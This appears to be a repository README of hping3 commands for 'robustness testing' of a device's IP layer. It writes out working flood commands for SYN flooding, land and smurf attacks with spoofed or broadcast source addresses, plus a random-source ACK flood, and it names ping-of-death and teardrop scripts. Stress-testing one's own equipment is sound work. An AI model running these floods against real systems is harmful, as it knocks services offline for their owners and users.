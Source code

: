 ## Scripts for robustness test against IP layer ##

### required Hping3 ###

### SYN flooding attack ###
```
 hping3 -i 1000 --rand-source -S -p 22 10.xx.xx.xx
```

### Land attack ###
> the source and destnation IP is the same 

```
hping3 -S -flood -V -a 10.xx.xx.1 10.xx.xx.1
```

### smurf attack ###
> source ip is the broadcase address

```
hping3 --flood -a 10.xx.xx.255 -A -p 22 10.xx.xx.xx

```
### unrelated response ###
> random source IP 

```
hping3 --flood --rand-source -A -p 22 10.xx.xx.xx

```
### ping of death ###
> refer to pingofdeath.sh 
> send overlarge size ICMP packets

### teardrop attack ###
> refer to teardrop.sh
> send overlaped fragment packets






